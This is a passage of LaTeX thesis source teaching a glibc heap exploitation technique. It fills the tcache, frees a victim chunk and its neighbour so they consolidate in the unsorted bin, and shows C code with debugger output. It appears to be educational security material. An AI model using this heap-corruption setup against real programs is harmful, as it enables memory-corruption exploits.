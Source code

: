\documentclass{masterthesis}
\newcommand*\tch{tcache}
\newcommand*\ub{unsorted bins}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
intptr_t stack_var[4];
\end{lstlisting}
Now, We allocate 7 chunks to fill up the \tch{} in the future. As you remember we did this trick before too.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *x[7];
for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
	x[i] = malloc(0x100);
}
\end{lstlisting}

The next step is to define a chunk to merge ‘prev’, and define the victim ‘a’, also, we define a small chunk to prevent merge chunks with the top chunk after free. 

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *prev = malloc(0x100);
intptr_t *a = malloc(0x100);
malloc(0x10);
\end{lstlisting}

As we mention, we need to fill up \tch{}, so , we perform the free function on the 7 chunks, as the result, heap manager force to use the \ub{} and other bins:

\begin{lstlisting}[language=c,frame=tlrb]
for(int i=0; i<7; i++){
    free(x[i]);
}
\end{lstlisting}

Now the tcahe is full. We perform the free function on the ‘prev’ and ‘a’.

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(prev);
\end{lstlisting}

The result of the above is to consolidate the ‘prev’ chunk with the victim ‘a’. Attention to the size and the address of the chunk:

\begin{lstlisting}[language=c,frame=tlrb]
Before:
unsorted_bins[0]: fw=0x555555559b10, bk=0x555555559b10
Chunk(addr=0x555555559b20, size=0x110, flags=PREV_INUSE)

After
unsorted_bins[0]: fw=0x555555559a00, bk=0x555555559a00
Chunk(addr=0x555555559a10, size=0x220, flags=PREV_INUSE)
 \end{lstlisting}

\begin{figure}[h!]
  \caption{a and prev pointers}
\end{figure}
\end{document}
